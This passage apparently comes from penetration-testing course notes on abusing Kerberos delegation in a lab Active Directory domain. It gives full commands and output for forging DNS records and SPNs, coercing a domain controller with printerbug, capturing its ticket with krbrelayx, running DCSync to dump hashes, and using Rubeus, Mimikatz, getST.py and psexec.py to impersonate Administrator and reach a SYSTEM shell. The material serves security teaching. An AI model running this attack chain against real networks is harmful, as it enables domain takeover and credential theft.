  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'DC01$@INLANEFREIGHT.LOCAL'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Sending S4U2self request to 172.16.99.3:88
[+] S4U2self success!
[*] Substituting alternative service name 'CIFS/dc01.inlanefreight.local'
[*] Got a TGS for 'Administrator' to 'CIFS@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):
<SNIP>
```

This command allows you to impersonate Administrator and request a servic ticket for the CIFS service, enabling SMB connections as the impersonated user. This method is particularly useful for scenarios where you have a ticket from a computer that is not a DC.

```powershell
PS C:\Tools> ls \\dc01.inlanefreight.local\c$

    Directory: \\dc01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/3/2023   2:58 PM                carole.holmes
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/6/2021   3:50 PM                Program Files
d-----        4/12/2023   3:24 PM                Program Files (x86)
d-----        3/30/2023  11:08 AM                Shares
d-----         4/4/2023   1:49 PM                Tools
d-----        3/30/2023   3:13 PM                Unconstrained
d-r---         4/4/2023  11:34 AM                Users
d-----       10/14/2022   6:49 AM                Windows
```

### Users

Users in AD can also be configured for unconstrained delegation, and it's quite different to exploit. To get a list of user accounts with this flag set, you can use the PowerView function `Get-DomainUser` with a specific LDAP filter that will look for users with the `TRUSTED_FOR_DELEGATION` flag set in their UAC.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

logoncount            : 0
badpasswordtime       : 12/31/1600 7:00:00 PM
distinguishedname     : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
objectclass           : {top, person, organizationalPerson, user}
name                  : sqldev
objectsid             : S-1-5-21-2974783224-3764228556-2640795941-1110
samaccountname        : sqldev
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 12/31/1600 7:00:00 PM
countrycode           : 0
whenchanged           : 8/4/2020 4:49:56 AM
instancetype          : 4
objectguid            : f71224a5-baa7-4aec-bfe9-56778184dc63
lastlogon             : 12/31/1600 7:00:00 PM
lastlogoff            : 12/31/1600 7:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata : {7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00 AM, 7/28/2020 1:34:13 AM...}
serviceprincipalname  : MSSQL_svc_dev/inlanefreight.local:1443
memberof              : CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
whencreated           : 7/27/2020 6:46:20 PM
badpwdcount           : 0
cn                    : sqldev
useraccountcontrol    : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION
usncreated            : 14648
primarygroupid        : 513
pwdlastset            : 7/27/2020 2:46:20 PM
usnchanged            : 90194
```

If you somehow managed to compromise this account, you also need to be able to update the SPN list, so you need an account with `GenericWrite` privileges on the compromised account.

You can leverage this unconstrained delegation privilege to become a domain administrator if these conditions are met.

This attack aims to create a DNS record that will point to your attack machine. This DNS record will be a fake computer in the AD environment. Once this DNS record is registered, you will add the SPN `CIFS/your_dns_record` to the account you compromised, which is an unconstrained delegation. So, if a victim tries to connect via SMB to your fake machine, it will ship a copy of its TGT in its TGS ticket since it will ask for a ticket for `CIFS/your_registration_dns`. This TGS ticket will be sent to the IP address you chose when registering the DNS record, your attack machine. All you have to do then is extract the TGT and use it.

You can use the [krbrelayx](https://github.com/dirkjanm/krbrelayx) tool suite for this attack.

First, you'll use `dnstool.py` to add a fake DNS record `roguecomputer.inlanefreight.local` pointing to your attack host `10.10.14.2` using any valid domain account.

```bash
d41y@htb[/htb]$ git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx
d41y@htb[/htb]$ python dnstool.py -u INLANEFREIGHT.LOCAL\\pixis -p p4ssw0rd -r roguecomputer.INLANEFREIGHT.LOCAL -d 10.10.14.2 --action add 10.129.1.207    

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

You can verify if the DNS record has been created using `nslookup`.

```bash
d41y@htb[/htb]$ nslookup roguecomputer.inlanefreight.local dc01.inlanefreight.local

Server:     dc01.inlanefreight.local
Address:    10.129.1.207#53

Name:   roguecomputer.inlanefreight.local
Address: 10.10.14.2
```

Then you add a crafted SPN to your target account using `addspn.py`. The SPN must be `CIFS/dns_entry`, so in your case, you use the option `-s` followed by `CIFS/roguecomputer.inlanefreight.local`. `CIFS` stands for Common Internet File System, equivalent to SMB. The option `--target-type samname` specifies that the target is a username, if unspecified, krbrelayx will assume it's a hostname.

```bash
d41y@htb[/htb]$ python addspn.py -u inlanefreight.local\\pixis -p p4ssw0rd --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

Any account trying to authenticate via SMB to `roguecomputer.inlanefreight.local` will have a copy of its TGT in its requested TGS ticket. You can use the PrinterBug tool to coerce `DC01$` into authenticating against your fake host. But before that, you need to look for the TGS ticket and TGT on your attacking host using `krbrelayx.py`. You provide this tool with the compromised account's secret key to decrypt the received TGS ticket. In this case the compromised account and target is `sqldev`, so you need to provide its hash in order to decrypt the received TGS ticket.

```bash
d41y@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

If you receive an error while trying to execute krbrelayx.py, you need to remove or update the impacket installation. The following steps are to remove impacket and reinstall it from the source.

```bash
d41y@htb[/htb]$ sudo apt remove python3-impacket
...SNIP...
d41y@htb[/htb]$ sudo apt remove impacket-scripts
...SNIP...
d41y@htb[/htb]$ git clone -q https://github.com/fortra/impacket;cd impacket
d41y@htb[/htb]$ sudo python3 -m pip install .
...SNIP...
```

Then you leverage the printer bug. You can use [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) or [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) available with krbrelayx.

```bash
d41y@htb[/htb]$ python3 printerbug.py inlanefreight.local/carole.rose:jasmine@10.129.205.35 roguecomputer.inlanefreight.local

[*] Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Attempting to trigger authentication via rprn RPC at 10.129.205.35
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

```bash
d41y@htb[/htb]$ python dementor.py -u pixis -p p4ssw0rd -d inlanefreight.local roguecomputer.inlanefreight.local dc01.inlanefreight.local

[*] connecting to dc01.inlanefreight.local
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] done!
```

This triggered an authentication attempt from `DC01` to your attacking host, and the tool automatically extracted the TGT embedded inside the TGS ticket.

```bash
d41y@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.1.207
[*] Got ticket for DC01$@INLANEFREIGHT.LOCAL [krbtgt@INLANEFREIGHT.LOCAL]
[*] Saving ticket in DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.1.207
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
```

This TGT has been saved to disk in the following file: `DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache`.

Finally, you can impacket to use this ticket by exporting its path in the `KRB5CCNAME` environment variable and then using `secretsdump.py` to perform `DCSync`.

```bash
d41y@htb[/htb]$ export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
d41y@htb[/htb]$ secretsdump.py -k -no-pass dc01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
INLANEFREIGHT.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:810d754e118439bab1e1d13216150299:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
daniel.carter:1109:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqldev:1110:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlprod:1111:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlqa:1112:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-backup:1113:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-scan:1114:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
<SNIP>
```

## Constrained Delegation

### From Windows

Constrained delegation was first introduced with WIndows Server 2003 and it was intended to restrict the services that a server can impersonate a user for, giving administrators the ability to specify application trust boundaries.

An example of constrained delegation is a researcher logging in to a reporting application. When the user logs in, the backend database server must apply the researcher's database permissions, not the permissions of the service account that the application runs under.

To accomplish this, the service needs Kerberos-constrained delegation enabled so that the user's Kerberos ticket is used to access the database when the researcher logs in. In this example, the front-web server is impersonating the user to the backend database, providing them access to only the data they can view or edit.



#### Abuse any Service

In order to understand this, it is necessary to recall the structure of the AP-REQ request, a request made by the user to the service once the TGS ticket for that service is received.



The diagram shows that this request contains two elements: an authenticator and a TGS ticket.

The Service Ticket or TGS ticket is also composed of two parts. An unencrypted part containing the SPN of the requested service, and an encrypted part containing the user's information and a session key. An attacker can modify the service name without invalidating his request, as the service name is not encrypted.

In constrained delegation, delegation is only allowed for a specific list of SPNs. If an attacker has compromised a service account with constrained delegation, they can relay received authentication attempts to one or more SPNs in the list.

To do so, the attacker will use the `S4U2Proxy` extension because it will allow them to obtain a valid TGS ticket on behalt of the user. The attacker, therefore, has a valid TGS ticket for a specific SPN destined for a particular service account. However, the attacker won't be able to use this TGS ticket towards a different service account since the content of the TGS ticket is encrypted with the key of the requested service. Another service account will not be able to decrypt the TGS ticket or Service Ticket.

On the other hand, if the service ticket account exposes several services, then the attacker can modify the SPN to access a different service exposed by that account.

This is very often the case with machine accounts. These are all service accounts that expose multiple services, such as CIFS, SPOOLER, or TERMSRV. An exhaustive list is available [on the Microsoft site](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772815(v=ws.10)#service-principal-names).

In this situation, if constrained delegation normally only allows authentication to be delegated to a particular service exposed by a machine account, for example, the SQL service, the attacker can modify the SPN in their AP-REQ request and access all other services offered by the account, for example the CIFS service. If the delegated user is the local administrator on the target machine, then the attacker can compromise that machine.



The limitation of this attack is that it is necessary to wait for a user to authenticate to the compromised service account. It is not always obvious that a privileged user logs in regularly.

#### Impersonate any User

If you compromise an account with constrained delegation, you can delegate the authentication to any service offered by the account in the authorized list.

If this constrained delegation allows protocol transition, you can pretend to be anyone arbitrarily, to authenticate against these services. This option is set here:


You can use the `S4U2Self` extension if protocol transition is enabled. It allows a service to obtain a forwordable service ticket to itself on behalf of any user.

Since you can retrieve a TGS ticket as any user, you can perform the previous attack without waiting for anyone's authentication.

#### Attack Example

##### Enumerating with PowerView

First, you will use PowerView to find users and computers with constrained delegation privileges.

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainComputer -TrustedToAuth

logoncount                    : 35
badpasswordtime               : 12/31/1600 6:00:00 PM
distinguishedname             : CN=DMZ01,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
objectclass                   : {top, person, organizationalPerson, user...}
badpwdcount                   : 0
lastlogontimestamp            : 3/23/2023 10:09:29 AM
objectsid                     : S-1-5-21-1870146311-1183348186-593267556-1118
samaccountname                : DMZ01$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
countrycode                   : 0
cn                            : DMZ01
accountexpires                : NEVER
whenchanged                   : 3/30/2023 2:51:35 PM
instancetype                  : 4
usncreated                    : 12870
objectguid                    : eaebb114-2638-40ec-9617-8715c4d3057a
operatingsystem               : Windows Server 2019 Standard
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 6:00:00 PM
msds-allowedtodelegateto      : {www/WS01.INLANEFREIGHT.LOCAL, www/WS01}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {WSMAN/DMZ01, WSMAN/DMZ01.INLANEFREIGHT.LOCAL, TERMSRV/DMZ01,
                                TERMSRV/DMZ01.INLANEFREIGHT.LOCAL...}
lastlogon                     : 4/1/2023 10:02:15 AM
iscriticalsystemobject        : False
usnchanged                    : 41084
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/14/2022 12:10:03 PM
primarygroupid                : 515
pwdlastset                    : 3/23/2023 10:20:32 AM
msds-supportedencryptiontypes : 28
name                          : DMZ01
dnshostname                   : DMZ01.INLANEFREIGHT.LOCAL
```

The account `DMT01$` has `TRUSTED_TO_AUTH_FOR_DELEGATION` UAC attribute set, which means it has constrained delegation with protocol transition set, and the only allowed service for delegation is `www/WS01.inlanefreight.local`.

##### Requesting Valid TGS Ticket

You can use Rubeus to ask for a valid TGS ticket from an arbitrary user to access the HTTP service on the WS01 host. To successfully perform this attack, you will need to obtain the NTLM password hash of the DMZ01$ machine account. You can obtain this using Mimikatz.

```powershell
PS C:\Tools> .\mimikatz.exe privilege::debug sekurlsa::msv exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 414620 (00000000:0006539c)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 4/1/2023 7:39:12 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : DMZ01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ff955e93a130f5bb1a6565f32b7dc127
         * SHA1     : f9232403611aa86f51a05c64e1abd86ce4021ff1
<SNIP>
```

##### Constrained Delegation Attack

```powershell
PS C:\Tools> .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.inlanefreight.local /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: ff955e93a130f5bb1a6565f32b7dc127
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\DMZ01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFMDCCBSygAwIBBaEDAgEWooIEMjCCBC5hggQqMIIEJqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggPcMIID2KADAgESoQMC
      <SNIP>


[*] Action: S4U

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2self request for: 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator@INLANEFREIGHT.LOCAL' to 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIGJDCCBiCgAwIBBaEDAgEWooIFEDCCBQxhggUIMIIFBKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiEzARoAMCAQGhCjAIGwZTUUwwMSSjggTPMIIEy6ADAgESoQMCAQGiggS9BIIEuY/s7XKb3zZMjzGB
      <SNIP>

[*] Impersonating user 'Administrator' to target SPN 'www/WS01.inlanefreight.local'
[*]   Final ticket will be for the alternate service 'http'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2proxy request for service: 'www/WS01.inlanefreight.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'http'
[*] base64(ticket.kirbi) for SPN 'http/WS01.inlanefreight.local':

      doIG/jCCBvqgAwIBBaEDAgEWooIF4DCCBdxhggXYMIIF1KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRodHRwGxhXUzAxLmlubGFuZWZyZWlnaHQubG9jYWyjggWHMIIFg6ADAgES
      <SNIP>
```

This output from Rubeus is great, as you can see what's going on. First, Rubeus asks for a TGT so that you can be in the context of DMZ01$. Then it performs an S4U2Self request to get a TGS ticket as Administrator.

```
[*] Got a TGS for 'Administrator@INLANEFREIGHT.LOCAL' to 'DMZ01$@INLANEFREIGHT.LOCAL'
```

Finally, it uses this TGS ticket to perform a S4U2Proxy request and will update the SPN to match what you requested, which is the HTTP service.

```
[*] Impersonating user 'Administrator' to target SPN 'www/WS01.inlanefreight.local'
[*]   Final ticket will be for the alternate service 'http'
```

##### Verifying New Ticket

You can check your new ticket with the `klist` command.

```powershell
PS C:\Tools> klist

Current LogonId is 0:0x3f22d97

Cached Tickets: (1)

#0>     Client: Administrator @ INLANEFREIGHT.LOCAL
        Server: http/WS01.inlanefreight.local @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/15/2020 10:37:16 (local)
        End Time:   8/15/2020 20:37:16 (local)
        Renew Time: 8/22/2020 10:37:16 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

##### Using the Ticket for Remote Access from DMZ01

This ticket can be used to get a remote shell via WinRM on `WS01.inlanefreight.local`:

```powershell
PS C:\Tools> Enter-PSSession ws01.inlanefreight.local

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami

inlanefreight\administrator
```

### From Linux

Using Impacket's `findDelegation.py`, you can find the accounts with delegation privileges.

```bash
d41y@htb[/htb]$ findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra
                                                                                                                                                                     
AccountName    AccountType  DelegationType                      DelegationRightsTo                                                                                   
-------------  -----------  ----------------------------------  --------------------------------                                                                     
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL                
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL  
callum.dixon   Person       Unconstrained                       N/A                                                                                                  
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01.INLANEFREIGHT.LOCAL                                                                     
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01                      
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01.INLANEFREIGHT.LOCAL     
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01                          
SQL01$         Computer     Unconstrained                       N/A
```

You can see there are three types of delegation in the results:

- **Unconstrained**: this accound has unconstrained delegation
- **Constrained**: this account has constrained delegation without protocol transition support
- **Constrained w/ Protocol Transition**: this account has constrained delegation with protocol transition support

You will assume that you have already compromised the account `beth.richards`. This account has constrained delegation with protocol transition set, and the only allowed service for delegation is `TERMSRV/DC01.INLANEFREIGHT.LOCAL`.

Using the `getST.py` tool from Impacket, you can craft a valid TGS from an arbitrary user to access the `TERMSRV` service on the `DC01` host.

```bash
d41y@htb[/htb]$ getST.py -spn TERMSRV/DC01 'INLANEFREIGHT.LOCAL/beth.richards:B3thR!ch@rd$' -impersonate Administrator

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

This will generate a ticket and save it as `Administrator.ccache` in the current directory. Once you have this valid ticket to access the `TERMSRV` service on `DC01` as `Administrator`, you can use it with `psexec.py` from impacket, after exporting its path to the environment variable `KRB5CCNAME`. This tool will update the SPN in this TGS on the fly to get an interactive shell. The `-debug` flag is added on purpose so you can see what's going on.

```bash
d41y@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
d41y@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[+] Impacket Library Installation Path: /home/plaintext/.local/lib/python3.9/site-packages/impacket
[+] StringBinding ncacn_np:DC01[\pipe\svcctl]
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[*] Requesting shares on DC01.....
[*] Found writable share ADMIN$
[*] Uploading file SmXURDVG.exe
[*] Opening SVCManager on DC01.....
[*] Creating service DBou on DC01.....
[*] Starting service DBou.....
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[!] Press help for extra shell commands
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Reading this output, you can see that multiple times, Impacket is looking for a ticket for a specific SPN, but it can't find it.

```
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
```

So it keeps looking for other tickets compatible with the target's service account.

```
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
```

Once it finds one, it updates the SPN to the one it's looking for, which here is `CIFS/DC01@INLANEFREIGHT.LOCAL`.

```
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
```

`psexec.py` repeats this operation to get an interactive shell.

```bash
d41y@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug
<SNIP>
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

